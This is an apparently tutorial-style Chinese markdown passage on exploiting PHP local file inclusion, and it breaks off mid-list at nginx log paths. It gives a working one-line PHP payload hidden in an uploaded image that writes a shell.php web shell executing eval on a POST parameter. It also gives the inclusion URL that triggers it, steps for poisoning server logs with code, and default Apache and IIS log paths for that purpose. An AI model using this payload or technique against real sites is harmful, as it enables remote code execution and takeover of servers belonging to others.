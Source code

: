 ## 各种文件包含

### 本地文件包含

利用网站报错日志写入木马程序。

流程如下：

- 首先需要找到日志文件的存储位置
- 借助报错，往日志文件写木马
- 使用工具（菜刀或者蚁剑）连接

### 包含上传文件（先上传，后包含）

假设已经上传一句话图片木马到服务器，路径为`/upload/201811.jpg`。

图片代码如下：

```php
<?fputs(fopen("shell.php","w"),"<?php eval($_POST['pass']);?>")?>
```

**然后访问URL：`http://www.xxxx.com/index.php?page=./upload/201811.jpg`，包含这张图片，将会在index.php所在的目录下生成shell.php**。

### 包含Apache日志文件

WEB服务器一般会将用户的访问记录保存在访问日志中。那么我们可以根据日志记录的内容，精心构造请求，把PHP代码插入到日志文件中，通过文件包含漏洞来执行日志中的PHP代码。

前提是知道日志的物理存放路径。

**日志默认路径**

1. **apache+Linux日志默认路径**

    ```
/etc/httpd/logs/access_log  
    /var/log/httpd/access_log
    ```
2. **apache+win2003日志默认路径**

   ```
   D:\xampp\apache\logs\access.log
   D:\xampp\apache\logs\error.log
   ```

3. **IIS6.0+win2003默认日志文件**

   ```
   C:\WINDOWS\system32\Logfiles
   ```

4. **IIS7.0+win2003 默认日志文件**

   ```
   %SystemDrive%\inetpub\logs\LogFiles
   ```

5. **nginx 日志文件**
